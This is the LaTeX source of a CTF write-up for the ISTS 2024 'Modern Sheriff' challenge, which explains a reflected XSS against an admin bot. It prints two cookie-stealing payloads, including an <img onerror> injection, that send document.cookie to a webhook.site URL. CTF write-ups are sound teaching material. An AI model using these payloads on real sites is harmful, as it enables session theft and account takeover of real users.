 \documentclass{article}
\title{ISTS CTF 2024 Modern Sheriff Writeup}
\author{Manav Malik}
\date{}
\begin{document}
\maketitle

Let's begin by examining the report website. It seems rather simple: a field where we enter our report, a submit button, and an hCaptcha (so we cannot brute force the form). From this alone, we can safely assume we have to do some kind of XSS injection. We know from the challenge description that the admin bot will visit the report we give it, so this must be XSS reflected.

Essentially, we need to write a payload that will grab the cookies of whoever visits the page and sends them to us somehow. One way to do this is by using a \href{https://webhook.site/}{webhook} and attach the cookies in a query string. With no additional limitations, we can use the following JavaScript code for this:

\begin{center}
  \texttt{window.location="https://webhook.site/[URL]/?cookie="\\+document.cookie;}
\end{center}

The problem here is that \texttt{<script>} tags are not allowed, so we might have to get a little creative. In the description, we are told that \texttt{<img>} tags may be used in the reports. This exposes an important vulnerability in that tag's \texttt{onerror} attribute. To exploit this, we can provide a bogus \texttt{src} (one that is guaranteed to throw an error) and put our payload in \texttt{onerror}. Our final report is:

\begin{center}
  \texttt{<img src=x onerror=javascript:window.location=\\"https://webhook.site/[URL]/?cookie="+document.cookie>}
\end{center}
\end{document}
